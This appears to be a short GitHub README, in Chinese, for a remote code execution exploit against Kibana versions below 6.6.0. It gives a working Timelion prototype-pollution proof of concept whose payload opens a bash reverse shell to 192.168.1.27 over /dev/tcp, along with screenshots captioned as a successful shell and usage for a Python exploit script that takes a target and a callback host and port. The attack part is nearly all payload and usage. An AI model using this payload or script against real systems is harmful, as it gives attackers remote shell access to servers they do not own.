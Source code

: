 # kibana-RCE <6.6.0

* 监听端口

![](./kibana1.jpg "监听端口")

POC： 
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.1.27/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
* 执行POC

![](./kibana_2.jpg "点击RUN执行")

* 成功反弹shell

![](./kibana3.png "成功反弹shell")


## 脚本使用
python kibana6.6.0RCE.py http://ip:port RHOST RPORT
![](./rce.jpg)
